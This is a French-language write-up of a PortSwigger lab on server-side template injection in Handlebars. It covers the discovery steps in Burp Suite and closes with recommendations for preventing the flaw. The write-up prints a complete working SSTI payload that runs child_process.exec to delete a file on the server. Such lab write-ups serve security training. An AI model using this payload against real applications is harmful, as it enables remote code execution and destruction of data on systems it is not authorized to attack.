




## Challenge 10 – Server-Side Template Injection (SSTI)

- **Nom :** Server-side template injection in an unknown language with a documented exploit
- **URL :** https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit

### Étapes de découverte

1. Ouverture du lab PortSwigger. On clique sur un article et on voit qu'il est "out of stock". On remarque qu'un paramètre `?message=` apparaît dans l'URL avec le message affiché sur la page. On va investiguer ce paramètre.
2. Capture de la requête `GET /?message=...` dans Burp Suite via `Proxy -> HTTP history`, puis envoi vers `Repeater`.
   
3. Test de plusieurs combinaisons de caractères spéciaux dans le paramètre `?message=` pour détecter une vulnérabilité de template injection (`${}`, `<%= %>`, `{{}}`, etc.). Quand on envoie `{{`, l'application crash avec une erreur "Internal Server Error". En analysant l'erreur, on remarque que le serveur utilise **Handlebars** (`/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js`). La syntaxe avec les doubles accolades `{{}}` ressemble à Twig, ce qui aurait pu nous orienter vers ce type de moteur de template, mais l'erreur révèle clairement qu'il s'agit de Handlebars.
   
4. À partir de là, la création du payload d'exploitation Handlebars était trop complexe. Je me suis aidé de la solution documentée pour obtenir le payload SSTI permettant d'exécuter une commande système (`rm /home/carlos/morale.txt`).
   
5. Encodage du payload en URL pour pouvoir l'envoyer dans le paramètre `?message=`. Le payload utilise les fonctionnalités de Handlebars pour accéder au constructeur de fonctions et exécuter du code Node.js via `require('child_process').exec()`.
   
6. Envoi du payload encodé dans le paramètre `?message=` via Burp Repeater. La requête retourne un `HTTP/2 200 OK`, ce qui signifie que le fichier `/home/carlos/morale.txt` a été supprimé avec succès.
7. Le lab est validé : "Congratulations, you solved the lab!"
   

### Payload utilisé

**Payload SSTI Handlebars (avant encodage URL) :**

```handlebars
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

Ce payload exploite Handlebars pour :
1. Créer une fonction qui exécute `require('child_process').exec()`
2. Supprimer le fichier cible `/home/carlos/morale.txt`

### Les recommandations

**Pour prévenir les vulnérabilités SSTI :**

1. **Ne jamais passer de données utilisateur directement dans les templates** : Les entrées utilisateur ne doivent jamais être concaténées ou interpolées directement dans le code du template. Utiliser des variables de contexte sécurisées.

2. **Utiliser un environnement sandboxé** : Configurer le moteur de template pour s'exécuter dans un environnement restreint qui limite l'accès aux fonctions dangereuses (comme `exec`, `eval`, ou l'accès au système de fichiers).

3. **Mettre à jour les dépendances** : S'assurer que le moteur de template utilisé est à jour et qu'il intègre les derniers correctifs de sécurité.

4. **Valider et assainir les entrées** : Filtrer les caractères spéciaux utilisés par les moteurs de template (`{{`, `}}`, `${`, `<%`, etc.) avant de les traiter.

**Références :**
- https://portswigger.net/web-security/server-side-template-injection
- https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server-side_Template_Injection

